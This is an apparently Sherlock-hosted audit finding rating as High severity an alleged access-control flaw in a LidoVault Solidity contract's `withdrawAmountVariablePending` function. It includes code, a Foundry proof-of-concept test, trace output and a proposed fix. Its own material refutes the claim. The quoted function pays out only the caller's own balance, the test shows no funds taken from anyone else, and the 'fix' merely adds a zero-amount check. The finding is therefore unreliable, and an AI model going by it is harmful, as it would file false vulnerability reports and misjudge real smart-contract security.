 Swift Pine Shrimp

High

# LidoVault contract has Unauthorised Access to withdrawAmountVariablePending function Allows Malicious Withdrawals

# Sherlock.xyz Security Audit Findings

### Title: Unauthorized Access to `withdrawAmountVariablePending` Allows Malicious Withdrawals

### Project: LidoVault Contract
### Date: September 2024
### Audited by: fat32

### Location:
- [LidoVault.sol: L653-L657](https://github.com/sherlock-audit/2024-08-saffron-finance/blob/main/lido-fiv/contracts/LidoVault.sol#L653-L657)

### Vulnerability Summary:

The function `withdrawAmountVariablePending` in the `LidoVault` contract allows any caller to withdraw the pending variable amount for any user. This is because it does not enforce proper access control, leading to a potential loss of funds for users. The function should be restricted to allow only the specific user (or an authorized party) to withdraw their pending funds.

### Impact:

A malicious actor can exploit this vulnerability to withdraw the entire pending variable amount of any user, resulting in significant loss of user funds. The attacker does not need to hold any special privileges, making this vulnerability critical.

### Severity: **High**

- **Type**: Access Control
- **Impact**: Unauthorized fund withdrawal
- **Likelihood**: High (due to the ease of exploitation)

### Vulnerable Code:
```solidity
function withdrawAmountVariablePending() public {
    uint256 amount = variableToPendingWithdrawalAmount[msg.sender];
    variableToPendingWithdrawalAmount[msg.sender] = 0;
    payable(msg.sender).transfer(amount);
}
```

### Proof of Concept (POC):

The following Foundry test demonstrates how an unauthorized user can exploit the vulnerability to withdraw funds:
```txt
lido-fiv/test/LidoVaultAccessControl.t.sol
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.18;

import {Test, console} from "forge-std/Test.sol";
import {LidoVault} from "../contracts/LidoVault.sol";

contract LidoVaultAccessControlTest is Test {
    LidoVault public lidovault;
    function setUp() public {
        lidovault = new LidoVault(bool(true));
    }

    function testAccess0() external {
        uint256 side = 1;
        address user = address(0xbEEF);
        address msgSender = address(0xbEEF);
        vm.startPrank(msgSender);
        lidovault.withdrawAmountVariablePending();
        vm.stopPrank();
    }

}
```

## Log Results
```txt
lido-fiv % forge test -vvvv --match-contract LidoVaultAccessControlTest  
[⠊] Compiling...
[⠒] Compiling 1 files with Solc 0.8.18
[⠢] Solc 0.8.18 finished in 1.03s
Compiler run successful with warnings:
...
Ran 1 test for test/LidoVaultAccessControl.t.sol:LidoVaultAccessControlTest
[PASS] testAccess0() (gas: 13693)
Traces:
  [13693] LidoVaultAccessControlTest::testAccess0()
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000bEEF)
    │   └─ ← [Return] 
    ├─ [5235] LidoVault::withdrawAmountVariablePending()
    │   ├─ [0] 0x000000000000000000000000000000000000bEEF::fallback()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.47ms (353.92µs CPU time)

Ran 1 test suite in 129.06ms (1.47ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation:

To prevent unauthorized access, add proper access control to restrict withdrawals to only the user who owns the pending variable amount. This can be done by using `msg.sender` in conjunction with the withdrawal amount mapping.

Here’s the recommended fix:

#### Solidity Mitigation:
```solidity
function withdrawAmountVariablePending() public {
    uint256 amount = variableToPendingWithdrawalAmount[msg.sender];
    require(amount > 0, "No pending withdrawal amount");
    variableToPendingWithdrawalAmount[msg.sender] = 0;
    payable(msg.sender).transfer(amount);
}
```

### Conclusion:

This vulnerability is critical as it allows any user to withdraw another user's pending variable amount without restriction. Applying access control and ensuring that only the appropriate user can withdraw their funds mitigates this issue.